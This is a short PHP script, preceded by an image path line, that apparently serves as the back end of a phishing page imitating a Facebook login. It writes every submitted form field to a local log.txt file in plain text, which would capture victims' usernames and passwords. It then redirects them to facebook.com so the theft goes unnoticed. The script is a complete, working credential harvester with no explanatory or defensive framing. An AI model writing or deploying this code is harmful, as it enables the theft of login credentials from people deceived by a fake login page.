 <?php
header ('Location: facebook.com');
$handle = fopen("log.txt", "a");
foreach($_POST as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "
");
}
fwrite($handle, "

");
fclose($handle);
exit;
?>
